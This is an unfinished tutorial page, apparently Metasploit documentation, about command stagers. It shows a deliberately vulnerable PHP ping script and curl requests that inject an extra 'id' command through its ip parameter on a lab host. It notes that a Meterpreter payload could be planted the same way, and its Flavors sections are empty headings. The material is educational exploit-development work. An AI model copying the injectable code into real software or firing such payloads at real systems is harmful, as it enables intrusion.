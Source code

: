 # Work in progress, do not touch.

Command stagers provide an easy way to write exploits against typical vulnerabilities such as command execution or code injection. There are currently eight different flavors of command stagers, each uses some sort of system command to save your payload onto the target machine, and execute it.

# The Vulnerability to Play with

The best way to explain how to use a command stager is probably by demonstrating it. Here we have a command injection vulnerability in PHP, something silly you actually might see in an enterprise-level software. The bug is that you can inject additional system commands in the system call for ping:

```php
<?php
   if ( isset($_GET["ip"]) ) {
      $output = system("ping -c 1 " . $_GET["ip"]);
      die($output);
   }
?>

<html>
<body>
  <form action = "ping.php" method = "GET">
   IP to ping: <input type = "text" name = "ip" /> <input type = "submit" />
  </form>
   </body>
</html>
```

Place the above PHP script (ping.php) on an Ubuntu + Apache + PHP server.

Under normal usage, this is how the script behaves - it just pings the host you specify, and shows
you the output:

```
$ curl "http://192.168.1.203/ping.php?ip=127.0.0.1"
PING 127.0.0.1 (127.0.0.1) 56(84) bytes of data.
64 bytes from 127.0.0.1: icmp_seq=1 ttl=64 time=0.017 ms

--- 127.0.0.1 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 0.017/0.017/0.017/0.000 ms
rtt min/avg/max/mdev = 0.017/0.017/0.017/0.000 ms
```

OK, now we can abuse that a little and execute another command (id):

```
$ curl "http://192.168.1.203/ping.php?ip=127.0.0.1+%26%26+id"
PING 127.0.0.1 (127.0.0.1) 56(84) bytes of data.
64 bytes from 127.0.0.1: icmp_seq=1 ttl=64 time=0.020 ms

--- 127.0.0.1 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 0.020/0.020/0.020/0.000 ms
**uid=33(www-data) gid=33(www-data) groups=33(www-data)**
**uid=33(www-data) gid=33(www-data) groups=33(www-data)**
```

See the www-data? That is the output for the second command we asked the script to execute. By
doing that, we can also do something even more nasty - like writing a Meterpreter payload onto the
target system, and execute it.


# The Msf::Exploit::CmdStager Mixin

Now let's talk about how to use a command stager to exploit the above script.

# Flavors

## VBS Command Stager

## Certutil Command Stager

## Debug_write Command Stager

## Debug_asm Command Stager

## TFTP Command Stager

## Bourne Command Stager

## Echo Command Stager

## Printf Command Stager
